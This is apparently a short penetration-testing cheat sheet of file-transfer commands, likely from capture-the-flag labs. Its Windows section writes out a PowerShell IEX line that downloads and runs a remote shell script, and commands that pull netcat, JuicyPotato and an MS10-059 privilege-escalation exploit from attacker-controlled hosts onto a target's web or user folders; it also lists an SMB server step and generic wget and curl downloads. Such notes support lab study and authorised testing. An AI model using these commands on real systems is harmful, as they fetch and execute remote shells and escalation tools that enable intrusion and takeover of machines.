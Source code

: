 # window

``` powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"  ```


``` powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.111/nc64.exe','C:\inetpub\wwwroot\wordpress\wp-content\uploads\temo.exe'); ```

```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.39/JuicyPotato.exe','C:\inetpub\temp\JuicyPotato.exe')

(new-object net.webclient).downloadfile('http://10.10.14.39/Churraskito_exe/MS10-059.exe', 'C:\Users\merlin\Desktop\MS10-059.exe')


```

#SMB

```
start smbserver.py

cp \\IP\tmp
```

# Linux

``` wget http://filename -O finame ```

``` curl http://www.abc.com/123/def/ghi/jkl.mno -o filename ```
